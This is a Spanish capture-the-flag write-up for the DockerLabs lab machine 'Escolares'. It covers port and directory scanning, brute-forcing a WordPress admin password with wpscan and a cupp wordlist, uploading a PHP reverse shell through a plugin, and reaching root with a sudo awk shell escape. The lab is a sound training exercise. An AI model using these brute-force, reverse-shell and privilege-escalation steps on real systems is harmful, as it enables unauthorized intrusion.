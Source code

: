 ```yaml
---
title: Escolares - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | Luisillo_o        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/7f83b9e1-1efc-47e7-8ce5-c23e2b3e5bce)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 80,22 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/1c698515-45c1-423a-b81b-9a9a0526ba60)

# Exploración Web

Al acceder a la página web, observamos una pagina sobre una *Universidad de Ciberseguridad*.

![image](https://github.com/user-attachments/assets/c1f9320f-5e28-45fe-98bd-25c2a803932c)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

  ![image](https://github.com/user-attachments/assets/f8a22e16-6c9d-4326-a1fc-133004368103)
el 

#WordPress

Exploramos el directorio `wordpress`, pero antes de nada mirando el codigo fuente de la pagina encontramos otra ruta en `profesores.html`.

![image](https://github.com/user-attachments/assets/6a175fca-b27a-4865-b269-c7235cc26717)

Y vemos que luisillo es el adminstrador de `wordpress`, por lo que ya tenemos un usuario interesante, antes de ello vamos a ver que contiene la ruta wordpress para ello volveremos a usar `gobuster`.

Tarda mucho en cargar, mirando vemos que intenta redirigirnos a escolares.dl pero como no lo tenemos en el `/etc/hosts` no llega a cargar del todo bien.

![image](https://github.com/user-attachments/assets/01d0e3c2-59a4-45c6-9a44-830b093601c1)

Por lo que añadiremos.

![image](https://github.com/user-attachments/assets/26d3c04e-4e2c-4aca-af76-f1dd69938f43)

Si probamos otra vez , ahora incluso el `gobuster` funciona mejor.
```bash
gobuster dir -u escolares.dl/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img 
```
![image](https://github.com/user-attachments/assets/78af7eab-189b-4cbb-a863-f28a2c2867f6)

Nos encuentra muchas rutas interesantes , pero lo que haremos sera usar wpscan , que esta ella espeficamente para auditar paginas wordpress.

```bash
wpscan --url http://escolares.dl/wordpress -e u,cb,vp,vt
```
Encontramos el usuario que vimos en la ruta de antes de `profesores.html`, por lo que con se ve es un usuario en potencia para probar fuerza bruta.

![image](https://github.com/user-attachments/assets/21a0a639-5334-44e9-9463-f9a831e3f157)

##Fuerza bruta usuario luisillo

Antes vimos informacion de ese usuario por lo que podemos generar un diccionario de contraseñas a traves de ese usuario.
```bash
cupp -i 
```

![image](https://github.com/user-attachments/assets/2be2ec8e-6ba4-4e1c-9f98-70fcac195447)

Hacemos el ataque con wpscan al usuario lusillo.

```bash
wpscan --url http://escolares.dl/wordpress/ -U luisillo -P luisillo.txt
```

![image](https://github.com/user-attachments/assets/88dc4f7d-c65d-4f7b-bd9a-5d8727a477d7)

Esta es la contraseña que tenemos de ese usuario, ya solo nos queda acceder como su usuario en el panel de administracion.

![image](https://github.com/user-attachments/assets/db6e7552-df85-455c-b8b9-19222b622268)

Ya dentro nos vamos al apartado de plugins, vemos un plugin el cual tiene acceso a los archivo del servidor web por lo que tenemos que hacer es generar una reverse shell, y acceder desde ella.

## Reverse Shell

Generamos la reverseshell utilizando **Pentest Monkey**, una herramienta popular para crear shells PHP que nos permiten obtener acceso remoto al servidor. La ruta de la reverseshell es la siguiente:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

## Pasos para Cargar la Reverseshell

1. **Preparar la Reverseshell**: Creamos un archivo de reverseshell en el directorio `wordpress`, con la ayuda del plugin.
2. **Ejecutar la Reverseshell**: Una vez que el archivo esté en el servidor, lo ejecutaremos para establecer la conexión.

![image](https://github.com/user-attachments/assets/58b7b91a-e2a4-47f5-86e8-b15b8c8d2f26)

Nos ponemos a escuchar por netcat en mi caso por el 4444

```bash 
nc -lvnp 4444
```

Luego, accedemos a la ruta de la página web donde hemos cargado la reverseshell:

![image](https://github.com/user-attachments/assets/1ba7e21b-c471-46c7-9873-6a77781a0f9e)

Hacemos un whoami para ver si somos el usuario www-data.

![image](https://github.com/user-attachments/assets/93cb0367-a3de-4317-ba45-68e930f37faf)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```
# Escalada de Privilegios

Viendo los home pra enumerar mas usuarios encontramos un archivo llamado `secret.txt`.

![image](https://github.com/user-attachments/assets/dfeea024-eb46-4065-ba33-66cf01994575)

Parece que lo contenia era la contraseña del usuario luisillo.

```bash
su luisillo
```

![image](https://github.com/user-attachments/assets/ec926bf5-ed7f-4694-9110-0c48f288a5c6)

Al ejecutar `sudo -l`, vemos que podemos ejecutar `awk` como `root`. Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```
![image](https://github.com/user-attachments/assets/45826585-e997-46e3-9e36-246a50587dc5)

Ya seriamos root.


